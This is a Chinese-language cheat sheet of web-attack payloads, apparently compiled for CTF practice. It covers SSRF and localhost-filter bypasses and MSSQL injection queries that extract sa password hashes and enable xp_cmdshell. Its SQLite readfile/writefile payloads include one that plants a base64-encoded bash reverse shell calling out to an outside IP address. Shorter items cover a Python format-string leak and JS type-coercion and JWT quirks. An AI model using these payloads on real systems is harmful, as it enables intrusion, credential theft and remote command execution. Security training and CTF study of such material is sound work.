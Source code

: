 
# Web

## RCE 命令绕过

包含 www.baidu.com 通过 http://user:pass@host 格式绕过16进制/8进制

`www.baidu.com@127.0.0.2`

绕过 127.0.0.1 , 2-127都可以, 8进制
```txt
127.0.0.2
...
127.0.0.127

curl 127.0.0.0x02
ping 0x7F.0x00.0x00.0x01
ping 0x7F000001
ping 0177.0000.0000.0001
```

## SSRF

1. 不存在路径绕过

`url=/http/../flag`

2. 通过127.0.0.2 ... 127


## curl 使用
curl -i -L
```txt
-i, --include       Incluude protocol response headers in the output
-L, --location      Follow redirects
```


# SQL 注入

## SQL Server
https://www.w3schools.com/sql/sql_ref_sqlserver.asp

```sql
-- db name
Select Name From Master..SysDataBases Where DbId=(Select Dbid From Master..SysProcesses Where Spid = @@spid)
-- stack query
-- if else
SELECT IIF(500<1000, 'YES', 'NO');
if (1=1) waitfor delay '00:00:1' else select 2
-- blind
?id=1' waitfor delay '00:00:2'--'

-- current-user
select CURRENT_USER;
select SYSTEM_USER;
select USER_NAME();

-- functions
ascii,char,charindex,concat,concat with +,concat_ws,datalength,difference,format,left,len,lower,ltrim,nchar,patindex,quotename,replace,replicate,reverse,right,rtrim,soundex,space,str,stuff,substring,translate,trim,unicode,upper
select case when 1=1 then 0 else 2 end  -- if else 
if (1<0) Begin select 'true' End Else Begin select 'false' End -- if else 2

-- sa passwords
select *  FROM master.sys.sql_logins
select *  FROM [master].[sys].[sql_logins]
SELECT name, CAST(CONVERT(varchar(max), password_hash, 1) AS varchar)  FROM master.sys.sql_logins -- 0x0102  https://docs.microsoft.com/en-us/sql/t-sql/functions/cast-and-convert-transact-sql?view=sql-server-ver16
SELECT name, CAST(CONVERT(varchar(max), password_hash, 2) AS varchar)  FROM master.sys.sql_logins -- 0102

select case when  ascii(SUBSTRING(CAST(CONVERT(varchar(max), password_hash, 2) AS varchar), 1, 1))=48  then 1 else 2 end FROM master.sys.sql_logins -- 判断第二位是否为0
select case when  ascii(SUBSTRING(CAST(CONVERT(varchar(max), password_hash, 2) AS varchar), 2, 1))=49  then 1 else 2 end FROM master.sys.sql_logins -- 判断第二位是否为1


SELECT HOST_NAME()  -- 主机名
SELECT HOST_NAME() AS HostName, SUSER_NAME() LoggedInUser -- SUSER_NAME sa
-- 在master - 视图里
```

启动 xp_cmdshell
```
sp_configure 'show advanced options',1
reconfigure
go
sp_configure 'xp_cmdshell',1
reconfigure
go
```
## sqlite

```sql
sqlite3.exe db.sqlite3 -cmd SELECT(name)FROM(sqlite_master)
# 查表名
SELECT name FROM sqlite_master WHERE type='table';
SELECT CHAR(97);  -- 'a'
SELECT HEX('a');  -- 61

-- 2022第五空间 5_Misc_m@sTeR_0f
SELECT writefile('/home/ctf/'||CHAR(46)||'sqliterc',"select readfile('/flag'||CHAR(46)||'txt')")
select sqlite_version()

select readfile('/etc/passwd')
select writefile('/home/ctf/'||(SELECT substr(sqlite_version(),2,1))||'sqliterc',
(SELECT substr(sqlite_version(),2,1)||'shell echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjAuMjYuNTkuMTM3Lzg4ODggMD4mMQo=|base64 -d|bash'))
```
# Python

```
{0.__class__.__init__.__globals__}
```
# Javascript

弱类型
```ts
[]  ==  0   // true
[]  ==  ''  // true
[2] ==  2   // true
[0] ==  0   // true
[0] == "0"  // true
[0] ==="0"  // false
"0" !== [0] // true
123+"hello"    // '123hello'
[123]+"hello"  // '123hello'
"123"+"hello"  // '123hello'
```

nodejs中的jwt库在签名时用algorithm指定算法，而在验签时用algorithms指定算法
在测试jwt相关的安全问题时可以使用burpsuite的JOSEPH插件辅助测试


# Article

[无字母数字RCE初探](http://www.m0x01sery.com/2022/03/28/rce-without-w-and-n/) 
[【安全练兵场】| BurpSuite靶场系列之SQL注入](https://mp.weixin.qq.com/s/RqB-vMifxn0-4hrn0OEoHQ)
[【安全练兵场】| BurpSuite靶场系列之身份验证](https://mp.weixin.qq.com/s/wDWcdTdFRkI8cMK1_pv94w)
## SRC
[Java代码分析工具Tabby在CTF中的运用](https://mp.weixin.qq.com/s/u7RuSmBHy76R7_PqL8WJww)
[挖洞思路：前端源码泄露漏洞并用source map文件还原](https://blog.csdn.net/qq_44930903/article/details/124257571)
